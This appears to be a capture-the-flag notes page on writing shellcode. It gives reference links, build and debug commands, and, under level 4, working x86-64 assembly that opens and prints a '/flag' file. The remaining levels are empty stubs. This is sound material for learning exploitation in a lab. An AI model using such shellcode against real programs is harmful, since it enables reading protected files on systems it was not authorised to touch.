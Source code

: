 # level
[x64.syscall.sh](https://x64.syscall.sh/): Your cheat sheet for syscalls. A glance here, and you're always ahead.

[syscalls manpage](https://man7.org/linux/man-pages/man2/syscalls.2.html): Understand not just the calls, but their deeper implications.

[felix cloutier](https://www.felixcloutier.com/x86/): Dive into the heartbeats of instructions, ensuring you're always in step.

[x86s reference](http://ref.x86s.net/coder64.html): Decode the bytes into moves, turning the tables on any challenge.

![图片](https://github.com/user-attachments/assets/38ff999a-07f2-4e20-be0b-c2b334a53c96)

![图片](https://github.com/user-attachments/assets/8fe712d1-8a9f-4666-a2d1-87269b321048)


```sh
# compile to elf
gcc -nostdlib -static shellcode.s -o sc-elf
```
```sh
# raw bytes
objcopy --dump-section .text=sc-raw sc-elf
```
```sh
# to debug
strace ./sc-elf
gdb ./sc-elf
```
![图片](https://github.com/user-attachments/assets/de1bf64d-7fd0-48af-bfdd-fa25089b2fbd)

```sh
gcc -nostdlib -static zzz.s -o yyy && objcopy --dump-section .text=xxx yyy
```

## 4
```s
.intel_syntax noprefix
.globl _start

.section .text

_start:

push 0x616c662f
mov dword ptr [rsp+4],0x67
push rsp
pop rdi
push 0
pop rsi
push 2
pop rax
syscall

push 1
pop rdi
push rax
pop rsi
push 0
pop rdx
push 60
pop r10
push 40
pop rax
syscall

push 0
pop rdi
push 60
pop rax
syscall

.section .data

```
## 5
```s

```
## 6
```s

```
## 7
```s

```
## 8
```s

```
## 9
```s

```
## 10
```s

```
## 11
```s

```
## 12
```s

```
## 13
```s

```
## 14
```s

```
